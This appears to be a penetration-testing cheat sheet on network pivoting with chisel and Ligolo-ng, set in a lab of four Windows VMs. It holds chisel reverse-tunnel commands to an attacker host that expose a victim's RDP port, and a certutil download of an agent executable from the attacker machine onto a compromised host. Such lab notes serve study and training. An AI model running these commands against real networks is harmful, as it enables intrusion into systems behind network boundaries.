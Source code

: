```bash
chisel client <ATTACKER_IP>:8000 R:1234:<Victimr_IP>:3389
# Connect: rdesktop 127.0.0.1:1234

#NORMALE MODE 
# (anythig  come to:4444)  --> Victim (localhost:5555)--> (Chisel Reverse Tunnel)
#---> back to attacker:4444
chisel client <ATTACKER_IP>:8000 0.0.0.0:4444:<Victimr_IP>:5555


``` 

### logolo-ng 

```bash
#Pivoting with Ligolo-ng  
https://freedium.cfd/https://medium.com/@issam.qsous/mastering-multi-pivot-strategies-unleashing-ligolo-ngs-power-double-triple-and-even-quadruple-dca6b24c404c

- **Pivoting**: Use compromised systems to access otherwise unreachable networks.  
- **Tunnels**: Create secure connections to bypass network restrictions.  

## Ligolo-ng Overview  
- Establishes tunnels with **reverse TCP/TLS** using a tun interface (no need for SOCKS or proxychains).  
- Components:  
  - **Proxy**: Runs on your local machine to receive connections from compromised systems.  
  - **Agent**: Deployed on the target machine for command execution.  

## Key Options  

### Proxy Options:  
- `-laddr`: Listening address (default `0.0.0.0:11601`).  
- `-selfcert`: Generate self-signed certificates dynamically.  
- `-v`: Enable verbose mode.  

### Agent Options:  
- `-connect`: Target (domain:port).  
- `-retry`: Auto-retry on error.  
- `-socks`: SOCKS5 proxy settings (optional).  
- `-ignore-cert`: Ignore TLS certificate validation (for debugging only).  

## Lab Setup  
- Created 4 Virtual Networks with different **subnets**.  
- Configured **4 Windows VMs**, each connected to multiple subnets.  
- **Attacker Machine (Kali)** connected to `192.168.232.0`.  

### Subnet Connections  
1. **kali**: `192.168.232.153/24`  
1. **Ligolo-1**: `192.168.232.0` & `192.168.8.0`  
2. **Ligolo-2**: `192.168.119.0` & `192.168.8.0`  
3. **Ligolo-3**: `192.168.119.0` & `192.168.79.0`  
4. **Ligolo-4**: `192.168.21.0` & `192.168.79.0`  


### Ligolo-ng Pivoting Commands Cheat Sheet  

################################################
1. `Ligolo-1`: `192.168.232.133` & `192.168.8.129` 
################################################
#1.Upload Ligolo Agent on The Compromised Machine
`python -m http.server # on attcker machine`

`certutil.exe -urlcache -f "http://192.168.232.153:8000/agent.exe" agent.exe` #on Ligolo-1
```